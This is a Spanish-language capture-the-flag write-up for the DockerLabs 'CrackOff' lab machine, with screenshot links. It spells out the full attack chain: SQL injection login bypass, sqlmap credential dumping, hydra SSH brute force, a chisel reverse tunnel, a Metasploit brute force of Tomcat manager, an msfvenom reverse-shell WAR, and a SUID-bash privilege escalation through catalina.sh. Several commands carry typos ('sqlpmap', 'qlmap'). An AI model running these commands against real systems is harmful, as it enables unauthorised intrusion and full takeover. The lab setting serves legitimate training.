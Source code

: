 nmap: 22,80

![[dockerlabs/dificil/crackoff/nmap.png]]

---

entramos a la pagina principal

![[dockerlabs/dificil/crackoff/pagina principal.png]]

En el login de la pagina

![[dockerlabs/dificil/crackoff/login.png]]

probamos un sql básico " 'or 1=1-- -" y nos da acceso al panel de control, o sea es vulnerable a un RCE o LFI.  y buscando que mas hacer par obtener algún usuario o algo, encontré que podemos ver la base de datos por esto:

![[dockerlabs/dificil/crackoff/panel1.png]]

probamos con la base de datos

    sqlpmap --url http://172.17.0.2/login.php --forms --batch --dbs

![[sql1.png]]

ahora mas especifico:

    qlmap --url http://172.17.0.2/login.php --forms --batch --dbs --time-sec=1 --dump

nos da después de un rato una tabla con usuarios y contraseñas posibles:

![[tabla.png]]

creamos en nuestra terminal un txt de pass y user. 
luego un hydra para que pruebe combinaciones: 

    hydra -L user.txt -P pass.txt ssh://172.17.0.2 -vV

nos dio: 
![[contraseña.png]]

entramos por el ssh
![[dockerlabs/dificil/crackoff/ssh.png]]

y vemos que hay tres usuarios: Alice, Mario y rosa que somos nosotros.

escalamos: encontré esta nota  
![[dockerlabs/dificil/crackoff/nota.png]]
![[nota2.png]]
el contenido de la nota: flowerpower
probé si era la contraseña pero no es
buscando probé con el comando 

     netstat -an

y me dio esto que me llamo la atención
![[8080.png]]

descargamos chisel: https://github.com/jpillora/chisel/releases/tag/v1.10.0

gunzip chisel
y lo pasamos a la maquina victima con wget mientras tenemos el servidor abierto en nuestra terminal. 

    wget http://172.17.0.2/chisel

![[chisel.png]]

iniciamos en nuestra terminal un servidor: 

    ./chisel server -p 1234 --reverse
y en la maquina víctima: 

    ./chisel client 172.17.0.1:1234 R:443:127.0.0.1:8080

![[dockerlabs/dificil/crackoff/conexion1.png]]

entonces entramos al puerto 8080 por el 443:
http://127.0.0.1:443/
![[tomcat.png]]

ahora empezamos a escalar hacia los otros usuarios a través de "manager app" de la pagina tomcat.

como ninguna credencial que buscamos en: https://book.hacktricks.xyz/v/es/network-services-pentesting/pentesting-web/tomcat

sirvió mas abajo en la misma pagina nos muestra que busquemos por metasploit:

hacemos una fuerza bruta  a través de metasploit con los siguientes pasos:

     - use auxiliary/scanner/http/tomcat_mgr_login
     - set RHOSTS 127.0.0.1
     - set RPORT 8080
     - set USER_FILE /home/skopjee/user.txt
     - set PASS_FILE /home/skopjee/pass.txt
     - set TARGETURI /manager/html
     - run
y nos dio

    [+] 127.0.0.1:8080 - Login Successful: tomitoma:supersecurepasswordultra


ingresamos a mager app
![[panel2.png]]

creamos un archivo malicioso: 

    msfvenom -p java/jsp_shell_reverse_tcp LHOST=172.17.0.1 LPORT=4444 -f war -o rev.war

lo subimos en el apartado de "WAR"
![[dockerlabs/dificil/crackoff/war.png]]

cargamos y a parecerá en la parte principal de la pagina como "rev"
![[rev.png]]

ahora colocamos el terminal en escucha y nos conectamos
![[dockerlabs/dificil/crackoff/conexion2.png]]

luego de conectarme buscamos como llegar a root:
![[catalina.png]]

escalamos privilegios con sh:

    echo 'chmod u+s /bin/bash' >> /opt/tomcat/bin/catalina.sh

ahora lo iniciamos

     sudo -u root /opt/tomcat/bin/catalina.sh start

si vemos los permisos bash veremos que cambiaron:

 ![[dockerlabs/dificil/crackoff/root.png]]

y al hace el bash -p seremos root!